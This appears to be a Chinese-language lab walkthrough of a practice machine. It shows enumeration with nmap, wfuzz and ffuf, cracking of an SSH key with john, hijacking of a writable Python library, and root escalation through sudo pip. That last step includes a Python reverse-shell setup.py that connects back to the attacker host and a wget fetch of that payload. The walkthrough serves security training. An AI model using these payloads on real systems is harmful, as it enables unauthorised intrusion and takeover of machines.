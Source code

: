 0X00 环境<br />**攻击机：**192.168.1.3<br />**靶机：**192.168.1.9


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 192.168.1.9 -p-
```
![image.png](_img\06-靶场实践/1671518059251-6c8f02a8-909e-4f85-a285-2c1fff22583c.png)
可以看到目标机只开放了两个端口。

查看一下80端口的Web页面发现是一张图片，看来一下源码也没有什么内容
![image.png](_img\06-靶场实践/1671518232574-cc71a869-cb69-4e5d-a992-8f55d030529e.png)
![image.png](_img\06-靶场实践/1671518370587-f7314e03-30e2-4897-aab8-3944afebebd7.png)

扫描以下网站目录结构
![image.png](_img\06-靶场实践/1671518775561-8d582d08-9593-4a96-a2fd-77f42763c393.png)

查看上面扫描出来的robots.txt文件
![image.png](_img\06-靶场实践/1671518832349-e73f50cd-dc87-43b6-b545-16fc36b7f4d7.png)
访问/~myfiles
![image.png](_img\06-靶场实践/1671518861928-b930a432-6cde-46ca-9ae3-f73afb50d38e.png)
![image.png](_img\06-靶场实践/1671518879607-d6caa165-edfe-4c20-b987-7484dc0128e9.png)

依照`/~myfiles`这个格式尝试使用[Wfuzz](https://www.yuque.com/xmtxsec/network_security/fx9xgg)进行模糊扫描<br />推荐字典：[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
```
 wfuzz -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -c -u 'http://192.168.1.9/~FUZZ' --hc 404
```
![image.png](_img\06-靶场实践/1671520752200-5f13f2cb-a931-4770-a572-30b6235b615a.png)

在浏览器访问 [http://192.168.1.9/~secret/](http://192.168.1.9//~secret/)
![image.png](_img\06-靶场实践/1671520944830-4b8f7253-a801-4673-8ebe-c00f302c28b8.png)
通过这段信息我们可以知道需要找到藏在某个地方的ssh私钥文件，icex64可能是用户名。而且创建secret这个目录的原因就是为了分享他的私钥文件，但是我们并没有看到私钥文件，可以猜测私钥文件可能是在secret目录的下一级。

使用[FFUF](https://www.yuque.com/xmtxsec/network_security/phdd91qqlyq3bvb0)继续模糊测试
```
ffuf -u 'http://192.168.1.9/~secret/.FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -e .txt,.pub,.html,.bak -mc 200

-u    指定扫描路径
-w    指定字典
-e    指定要筛选的后缀
-mc   指定要筛选的状态码
```
![image.png](_img\06-靶场实践/1671522778959-429a32be-7a8d-4d8b-ae19-1c0778620e9a.png)

访问mysecret.txt，得到一串密文
![image.png](_img\06-靶场实践/1671522918001-8f52728b-d054-4ec3-b9c6-bbecc431e908.png)

经过多次尝试后发现使用base58解码成功
![image.png](_img\06-靶场实践/1671523035280-bdebc1b8-f823-4c0f-874f-f81ebb1b7fda.png)

将得到的私钥保存到ssh.txt中，并使用john生成密码本
```
/usr/share/john/ssh2john.py ssh.txt > passwd 
```
![image.png](_img\06-靶场实践/1671523414108-eeb7d625-d3ed-47d2-bfc1-b3ead4936fe0.png)

使用john爆破，得到密码`P@55w0rd!`
```
john --wordlist=/usr/share/wordlists/fasttrack.txt passwd
```
![image.png](_img\06-靶场实践/1671523500727-813ff8cd-ef2c-45b1-b321-8a4eff016166.png)

# 0X02 漏洞利用 
用上面收集到的账号`icex64`和密码`P@55w0rd!`连接SSH
```
ssh icex64@192.168.1.9 -i
```
![image.png](_img\06-靶场实践/1671524519880-84c9274f-930d-49ef-a672-982406ef85a5.png)

成功登陆，查看user.txt文件
![image.png](_img\06-靶场实践/1671524698410-ca7af7ce-5680-4429-813c-b377907236c1.png)


# 0X03 横向移动
查看当前用户拥有的权限
```
sudo -l
```
![image.png](_img\06-靶场实践/1671524820737-50515b42-f98a-4aed-abe1-4d81572fe60e.png)
 有一个arsene免密，还给出了一个python文件的路径。

查看一下这个python文件，发现调用了webbrowser
```
cat /home/arsene/heist.py
```
![image.png](_img\06-靶场实践/1671524948401-d01e907b-2d68-4749-87ab-30dc5c9628d1.png)

查找一下webbrowser
```
find /usr -name *webbrowser*
```
![image.png](_img\06-靶场实践/1671525279423-0adccfb1-1e0a-4bd3-b761-a0eb560afeb4.png)

查看该文件的权限
```
ls -l /usr/lib/python3.9/webbrowser.py
```
![image.png](_img\06-靶场实践/1671525387870-efc84161-596b-4f5e-8f43-3c39be8f7989.png)
具有root权限且当前用户具有编写权限

因为当前用户对webbrowser.py具有编写权限，因此在该文件中写入shell
```
os.system("/bin/bash")
```
![image.png](_img\06-靶场实践/1671525889919-b6c607f6-2895-4308-8602-3aa0a440427a.png)

用 arsene 调用 /home/arsene/heist.py，获取arsene权限
```
sudo -u arsene python3.9 /home/arsene/heist.py
```
![image.png](_img\06-靶场实践/1671525928826-4b6d259b-57d3-4bba-be52-5f29408db50b.png)

查看 arsene 用户拥有的权限
```
sudo -l
```
![image.png](_img\06-靶场实践/1671526003023-46c175a0-d542-43f9-bd1b-f3d9f9b70062.png)
pip命令不需要root密码即可执行


# 0X04 利用pip提权

## 方法一
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```
同等于
```
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > setup.py
sudo pip install .
```
成功得到toot权限
![image.png](_img\06-靶场实践/1671526741086-9aaea337-94ed-4cd0-b0b4-08dc5f42aa1c.png)


## 方法二
本地启动监听
```
nc -tvlp 9999
```
![image.png](_img\06-靶场实践/1671528059147-bd1b5298-2c1f-4a87-8bdc-001b1c067020.png)

编写提权脚本setup.py
```
from setuptools import setup   #加入

def con():
	import socket, time,pty, os
	host='192.168.1.3'
	port=9999
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.settimeout(10)
	s.connect((host,port))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	os.putenv("HISTFILE",'/dev/null')
	pty.spawn("/bin/bash")
	s.close()
con()

setup(name="hahahaha", version="1.0")  #加入
```

将setup.py上传到目标机
```
python2 -m SimpleHTTPServer 7777
```
![image.png](_img\06-靶场实践/1671527940830-2bf27237-80e6-425d-a5d4-09be4c800719.png)
```
wget http://192.168.1.3:7777/setup.py
```
![image.png](_img\06-靶场实践/1671527984893-2b03e4bc-e466-4ba5-a062-18d5ea57d325.png)

在靶机上执行
```
sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功反弹shell
![image.png](_img\06-靶场实践/1671527667637-dd81ec67-7d15-4b1c-a803-e4b17e793b80.png)


来到root目录下成功得到flag
![image.png](_img\06-靶场实践/1671526919472-128e9f27-ccf6-431c-9a3c-a917c8dd1738.png)
